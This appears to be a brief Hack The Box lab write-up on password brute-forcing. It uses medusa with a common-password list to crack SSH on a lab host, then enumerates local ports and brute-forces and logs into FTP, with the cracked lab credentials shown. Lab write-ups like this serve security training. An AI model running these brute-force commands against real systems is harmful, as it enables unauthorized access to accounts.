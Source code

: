 `SSH` is a cryptographic network protocol that provides a secure channel for remote login, command execution, and file transfers over an unsecured network.

```bash
AhmaDb0x@htb[/htb]$ medusa -h 94.237.50.226 -n 38319 -u sshuser -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3
```
```shell-session
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
94.237.50.226
38319
## Gaining Access
```bash
AhmaDb0x@htb[/htb]$ ssh sshuser@94.237.50.226 -p 38319
```

### Expanding the Attack Surface
```shell-session
AhmaDb0x@htb[/htb]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```


```bash
AhmaDb0x@htb[/htb]$ nmap localhost
```
check ftp:
```shell-session
21/tcp open  ftp
```
brute force ftp:
```bash
AhmaDb0x@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```
login to ftp:
```bash
AhmaDb0x@htb[/htb]$ ftp ftp://thomas:chocolate!@localhost
```

qqww1122